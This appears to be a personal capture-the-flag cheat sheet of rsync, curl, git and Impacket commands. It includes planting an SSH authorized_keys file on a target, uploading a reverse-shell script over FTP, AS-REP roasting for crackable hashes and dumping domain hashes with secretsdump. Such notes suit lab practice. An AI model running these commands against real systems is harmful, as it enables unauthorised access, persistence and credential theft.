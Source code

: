 ## To Sync file or directory perhaps
1. rsync -av --list-only rsync://[IP]
--list-only to list sync file
-v verbose
-a archive mode

Archive mode
preserves time stamps, performs a recursive copy, keeps all file and directory permissions, preserves owner and group information, and copies any symbolic links

2. rsync rsync://[user]@[ip]/[the_sync_file]
3. mkdir [dir_name]
4. rsync -av rsync://[user]@[ip]/[the_sync_file] [dir_name_you want to place the sync folder with] 

## To Transfer file
1. rsync -av [filename] rsync://[user]@[ip]/[the_location_u_want_to_put_it]
ex: rsync -av authorized_keys rsync://rsync-connect@10.10.119.109/files/sys-internal/.ssh/authorized_keys



**cURL**
You can actually access services other than HTTP using curl
ex for accessing FTP service:
1. curl 'ftp://[username]:[password]@[target_ip]/' -v -P -

You can even upload file to the target!
ex for uploading file to FTP service:
1. curl 'ftp://[username]:[password]@[target_ip]/files/' -v -P - -T  rev.sh



**GIT**
Usual git command for CTF
1. git checkout .
2. git revert []
3. git log
4. git show [] or git diff [] or else to see commit
5. just man git tbh


**Impacket**
1. GetNPUsers.py >> This script can check of the usernames are existing and if they have Kerberos pre-authentication enabled

Usage: `python3 ~/scripts/impacket/examples/GetNPUsers.py [Forest]/ -usersfile [List of username file] -outputfile hash.txt -dc-ip [TARGET IP] -format john` >> format john so then u can crack the existing user hash

2. secretsdump.py >> Performs various techniques to dump hashes from the remote machine without executing any agent there. (SAMHashes, LSASecrets, NTDSHashes)

Example: 
`python3 ~/scripts/impacket/examples/secretsdump.py -ntds ntds.dit -system system.bak LOCAL`
`~/scripts/impacket/examples/secretsdump.py -just-dc-ntlm <DOMAIN>/<USER>@<DOMAIN_CONTROLLER>`
and many more.. go research on it.
